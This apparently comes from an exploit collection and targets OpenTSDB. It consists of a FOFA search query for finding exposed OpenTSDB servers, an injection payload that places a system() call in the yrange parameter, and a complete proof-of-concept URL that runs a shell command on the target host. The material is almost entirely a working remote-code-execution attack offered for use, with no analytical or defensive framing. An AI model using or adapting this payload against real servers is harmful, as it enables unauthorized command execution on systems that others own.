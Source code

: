FOFA
----

    title="Opentsdb" ||body="opentsdb_header.jpg"

Bypass Payload
--------------

    [33:system('touch/tmp/poc.txt')]

POC
---

    http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json